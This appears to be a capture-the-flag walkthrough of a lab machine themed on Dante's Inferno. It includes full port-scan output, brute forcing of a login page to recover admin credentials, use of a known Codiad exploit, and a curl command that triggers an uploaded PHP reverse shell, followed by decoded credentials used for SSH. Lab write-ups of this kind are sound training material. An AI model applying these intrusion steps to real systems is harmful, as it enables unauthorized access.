# Port Scanning
```bash
❯ rustscan -a 10.49.155.188 -- -A

Open 10.49.155.188:25
Open 10.49.155.188:21
Open 10.49.155.188:23
Open 10.49.155.188:22
Open 10.49.155.188:80
Open 10.49.155.188:88
Open 10.49.155.188:110
Open 10.49.155.188:106
Open 10.49.155.188:194
Open 10.49.155.188:389
Open 10.49.155.188:443
Open 10.49.155.188:464
Open 10.49.155.188:636
Open 10.49.155.188:750
Open 10.49.155.188:775
Open 10.49.155.188:777
Open 10.49.155.188:779
Open 10.49.155.188:783
Open 10.49.155.188:808
Open 10.49.155.188:873
Open 10.49.155.188:1001
Open 10.49.155.188:1178
Open 10.49.155.188:1210
Open 10.49.155.188:1236
Open 10.49.155.188:1300
Open 10.49.155.188:1313
Open 10.49.155.188:1314
Open 10.49.155.188:1529
Open 10.49.155.188:2003
Open 10.49.155.188:2000
Open 10.49.155.188:2121
Open 10.49.155.188:2150
Open 10.49.155.188:2600
Open 10.49.155.188:2601
Open 10.49.155.188:2603
Open 10.49.155.188:2602
Open 10.49.155.188:2605
Open 10.49.155.188:2606
Open 10.49.155.188:2608
Open 10.49.155.188:2607
Open 10.49.155.188:2604
Open 10.49.155.188:2988
Open 10.49.155.188:2989
Open 10.49.155.188:4224
Open 10.49.155.188:4559
Open 10.49.155.188:4557
Open 10.49.155.188:4600
Open 10.49.155.188:4949
Open 10.49.155.188:5052
Open 10.49.155.188:5051
Open 10.49.155.188:5151
Open 10.49.155.188:5355
Open 10.49.155.188:5354
Open 10.49.155.188:5432
Open 10.49.155.188:5555
Open 10.49.155.188:5667
Open 10.49.155.188:5666
Open 10.49.155.188:5675
Open 10.49.155.188:5680
Open 10.49.155.188:5674
Open 10.49.155.188:6346
Open 10.49.155.188:6514
Open 10.49.155.188:6566
Open 10.49.155.188:6667
Open 10.49.155.188:8021
Open 10.49.155.188:8081
Open 10.49.155.188:8088
Open 10.49.155.188:8990
Open 10.49.155.188:9098
Open 10.49.155.188:9359
Open 10.49.155.188:9418
Open 10.49.155.188:9673
Open 10.49.155.188:10000
Open 10.49.155.188:10081
Open 10.49.155.188:10083
Open 10.49.155.188:10082
Open 10.49.155.188:11201
Open 10.49.155.188:15345
Open 10.49.155.188:17001
Open 10.49.155.188:17003
Open 10.49.155.188:17004
Open 10.49.155.188:17002
Open 10.49.155.188:20011
Open 10.49.155.188:20012
Open 10.49.155.188:24554
Open 10.49.155.188:27374
Open 10.49.155.188:30865
Open 10.49.155.188:57000
Open 10.49.155.188:60177
Open 10.49.155.188:60179

PORT      STATE SERVICE           REASON         VERSION
21/tcp    open  ftp?              syn-ack ttl 62
22/tcp    open  ssh               syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a2:94:f8:36:19:5d:f7:49:97:6f:de:fe:5f:c8:cb:64 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDRrY6wTm6rxP1XlgH2Nj57ebNoCHDVf85aNryssaPrLpE4V0qVi/wLkU6PGZpFv+3CNEi/1VvRpcBslxp4H+qWK1l6KyrPQGe5ZuNt4SVnABTrspLwpWw759OjkTq+yyHc3k5XRZQ52IR3k3B1hjXoyDUKBHdl2hjtVUGOzLE397RV/QsAWnjI1w4xkqZpm6thP00NIEOa4mu3s2c2ScEfkJvJ9MfA9vFGvPRmVqakzYJ2KuvtHiw36EKRh4HJMUUbB/DqkYgHAJcaeBgVuzLV0RMSLxI+KpRXdZiSZb3sbjRm1BLwHodnOdKPtlsB3gttE1aU+kEZCeRpJLzZuRym03Hb/FGmgH8YGeHjoldIFW6nRpkvN1zNo/RGLlFwcSLDWwB9Od97eifVYNiL9TIDRtqRi7cpBwWkCjdgFH6oud0rN2P87yqIr9JAXRiM5okVciIZnY27Cu7JQ4v8OLGhwR+Y0GqB7fpxF6PfrnkGBYYUqGc/LeKPR3Ri+kLpjLM=
|   256 74:3d:a9:f8:ff:93:c6:dc:af:91:24:e4:2b:b1:18:36 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDGqnzdfJUdwHZk4tC5oMDQulIN7gAbU7mUyVWmA6EB+ipYtTM3p9Qt45f46OMdaxF119Hi0/HhXBfo3mq6hmiw=
|   256 c4:5e:ac:44:fd:63:16:dc:87:8c:12:03:a1:aa:dd:54 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICzfkB4b8HkW53v6MGWIuSDdZ6dizOKO9kP6Okz6v1AG
23/tcp    open  telnet?           syn-ack ttl 62
25/tcp    open  smtp?             syn-ack ttl 62
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http              syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dante's Inferno
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
88/tcp    open  kerberos-sec?     syn-ack ttl 62
106/tcp   open  pop3pw?           syn-ack ttl 62
110/tcp   open  pop3?             syn-ack ttl 62
194/tcp   open  irc?              syn-ack ttl 62
|_irc-info: Unable to open connection
389/tcp   open  ldap?             syn-ack ttl 62
443/tcp   open  https?            syn-ack ttl 62
464/tcp   open  kpasswd5?         syn-ack ttl 62
636/tcp   open  ldapssl?          syn-ack ttl 62
750/tcp   open  kerberos?         syn-ack ttl 62
775/tcp   open  entomb?           syn-ack ttl 62
777/tcp   open  multiling-http?   syn-ack ttl 62
779/tcp   open  unknown           syn-ack ttl 62
783/tcp   open  spamassassin?     syn-ack ttl 62
808/tcp   open  ccproxy-http?     syn-ack ttl 62
873/tcp   open  rsync?            syn-ack ttl 62
1001/tcp  open  webpush?          syn-ack ttl 62
1178/tcp  open  skkserv?          syn-ack ttl 62
1210/tcp  open  eoss?             syn-ack ttl 62
1236/tcp  open  bvcontrol?        syn-ack ttl 62
1300/tcp  open  h323hostcallsc?   syn-ack ttl 62
1313/tcp  open  bmc_patroldb?     syn-ack ttl 62
1314/tcp  open  pdps?             syn-ack ttl 62
1529/tcp  open  support?          syn-ack ttl 62
2000/tcp  open  cisco-sccp?       syn-ack ttl 62
2003/tcp  open  finger?           syn-ack ttl 62
2121/tcp  open  ccproxy-ftp?      syn-ack ttl 62
2150/tcp  open  dynamic3d?        syn-ack ttl 62
2600/tcp  open  zebrasrv?         syn-ack ttl 62
2601/tcp  open  zebra?            syn-ack ttl 62
2602/tcp  open  ripd?             syn-ack ttl 62
2603/tcp  open  ripngd?           syn-ack ttl 62
2604/tcp  open  ospfd?            syn-ack ttl 62
2605/tcp  open  bgpd?             syn-ack ttl 62
2606/tcp  open  netmon?           syn-ack ttl 62
2607/tcp  open  connection?       syn-ack ttl 62
2608/tcp  open  wag-service?      syn-ack ttl 62
2988/tcp  open  hippad?           syn-ack ttl 62
2989/tcp  open  zarkov?           syn-ack ttl 62
4224/tcp  open  xtell?            syn-ack ttl 62
4557/tcp  open  fax?              syn-ack ttl 62
4559/tcp  open  hylafax?          syn-ack ttl 62
4600/tcp  open  piranha1?         syn-ack ttl 62
4949/tcp  open  munin?            syn-ack ttl 62
5051/tcp  open  ida-agent?        syn-ack ttl 62
5052/tcp  open  ita-manager?      syn-ack ttl 62
5151/tcp  open  esri_sde?         syn-ack ttl 62
5354/tcp  open  mdnsresponder?    syn-ack ttl 62
5355/tcp  open  llmnr?            syn-ack ttl 62
5432/tcp  open  postgresql?       syn-ack ttl 62
5555/tcp  open  freeciv?          syn-ack ttl 62
5666/tcp  open  nrpe?             syn-ack ttl 62
5667/tcp  open  unknown           syn-ack ttl 62
5674/tcp  open  hyperscsi-port?   syn-ack ttl 62
5675/tcp  open  v5ua?             syn-ack ttl 62
5680/tcp  open  canna?            syn-ack ttl 62
6346/tcp  open  gnutella?         syn-ack ttl 62
6514/tcp  open  syslog-tls?       syn-ack ttl 62
6566/tcp  open  sane-port?        syn-ack ttl 62
6667/tcp  open  irc?              syn-ack ttl 62
|_irc-info: Unable to open connection
8021/tcp  open  ftp-proxy?        syn-ack ttl 62
8081/tcp  open  blackice-icecap?  syn-ack ttl 62
|_mcafee-epo-agent: ePO Agent not found
8088/tcp  open  radan-http?       syn-ack ttl 62
8990/tcp  open  http-wmap?        syn-ack ttl 62
9098/tcp  open  unknown           syn-ack ttl 62
9359/tcp  open  unknown           syn-ack ttl 62
9418/tcp  open  git?              syn-ack ttl 62
9673/tcp  open  unknown           syn-ack ttl 62
10000/tcp open  snet-sensor-mgmt? syn-ack ttl 62
10081/tcp open  famdc?            syn-ack ttl 62
10082/tcp open  amandaidx?        syn-ack ttl 62
10083/tcp open  amidxtape?        syn-ack ttl 62
11201/tcp open  smsqp?            syn-ack ttl 62
15345/tcp open  xpilot?           syn-ack ttl 62
17001/tcp open  unknown           syn-ack ttl 62
17002/tcp open  unknown           syn-ack ttl 62
17003/tcp open  unknown           syn-ack ttl 62
17004/tcp open  unknown           syn-ack ttl 62
20011/tcp open  unknown           syn-ack ttl 62
20012/tcp open  ss-idi-disc?      syn-ack ttl 62
24554/tcp open  binkp?            syn-ack ttl 62
27374/tcp open  subseven?         syn-ack ttl 62
30865/tcp open  unknown           syn-ack ttl 62
57000/tcp open  unknown           syn-ack ttl 62
60177/tcp open  unknown           syn-ack ttl 62
60179/tcp open  unknown           syn-ack ttl 62
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%), Adtran embedded (92%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/h:adtran:424rg
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 - 5.15 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Adtran 424RG FTTH gateway (92%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%)
No exact OS matches for host (test conditions non-ideal).
```
First I visited the website.  <br/>
 <br/>
Nothing special. So I bruteforce for directory. <br/>
 <br/>
Found `inferno`. Visiting the page I found a login page. <br/>
<br/>
So I need to brute force the login page. I guessed the following probable user names. <br/>
```txt
admin
dante
inferno
```
Using this I bruteforce the login page. <br/>
 <br/>
So the credentials are `admin:dante1`. Using this I logged in. <br/>
 <br/>
It is running Codiad webapp. In searchsploit I found the following exploits. <br/>
 <br/>
Only the last one worked. <br/>
<br/>
Following the provided procedure I got reverse shell. <br/>
<br/>
<br/>
Uploaded the `shell.php`. Then clicking the delete I got the full path of the uploaded shell. <br/>
 <br/>
<br/>
Using the following link with curl command I got the reverse shell.  <br/>
```txt
http://10.49.155.188/inferno/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/shell.php
```
```bash
curl 'http://10.49.155.188/inferno/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/shell.php' -u 'admin:dante1'
```
 <br/>
But I need to access as `dante`. While enumeration I found the following hex encoded text in `.download.dat` file. <br/>
 <br/>
Decoding it with cyberchef <br/>
<br/>
Using the username and password I logged in via ssh.  <br/>
